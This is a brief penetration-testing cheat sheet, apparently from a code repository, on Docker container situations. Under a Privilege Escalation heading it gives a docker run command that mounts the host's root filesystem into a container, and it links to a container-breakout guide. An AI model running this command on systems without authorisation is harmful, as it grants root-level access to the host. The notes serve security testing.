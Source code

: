 

# Guide

1. If the shell gain is within a Docker container, make sure you are within the correct server or that the exploit cant be changed to escape.

# Privilege Escalation

```
docker image ls
```

```
docker run -v /:/mnt -it alpine
```
# Escape Container

[Docker Breakout / Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
